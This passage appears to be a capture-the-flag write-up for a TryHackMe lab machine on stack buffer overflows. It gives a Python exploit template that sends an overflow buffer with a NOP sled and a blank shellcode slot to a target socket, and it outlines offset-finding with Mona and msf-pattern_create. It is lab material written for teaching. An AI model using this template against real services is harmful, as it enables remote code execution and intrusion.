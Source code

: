 ```python
#!/usr/bin/python3
import socket

ip = "MACHINE_IP" # Set to remote machine ip
port = 9999

prefix = ""
offset = 0 # byte offset here
overflow = "A" * offset # Optional, set A to \x90 
retn = "" # JMP ESP (don't forget to reverse if little endian!)
padding = "\x90" * 16
payload = "" # shell code
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("[+] Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("[+] Done!")
except:
  print("[-] Could not connect. Try checking if the program is running?")
```

I'm not going to explain how to do a buffer overflow for people who know nothing about it (maybe for a later post), but I'll link some people who can explain it at the bottom of this writeup.

The process I use:
1. Identify the part of the program we can overflow (FOUND!)
2. Use Immunity Debugger and Mona to find the offset
3. Find bad characters and the right module (using Mona)
4. Verify the exploit works locally and then test it against the real thing.

Assume for all of these steps I'm running the vulnerable executable through Immunity Debugger because providing all of those screenshots is a little excessive.

### Installing Mona
Mona is a great plugin for Immunity Debugger that you can use to automate some of the more cumbersome parts of exploit development. You can find the plugin [here](https://github.com/corelan/mona). To install, just drag and drop `mona.py` into the PyCommands folder where the Immunity Debugger files are.

### Finding the Offset
As of the writing of this article, the `pattern_create.rb` can now be used with `/usr/bin/msf-pattern_create` in Kali Linux. I'll use this tool to generate a cyclic string that I can then use to locate the EIP.
```bash
kali@kali:~/ctf/thm/brainstorm$ msf-pattern_create -l 3000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad...<it long>
```
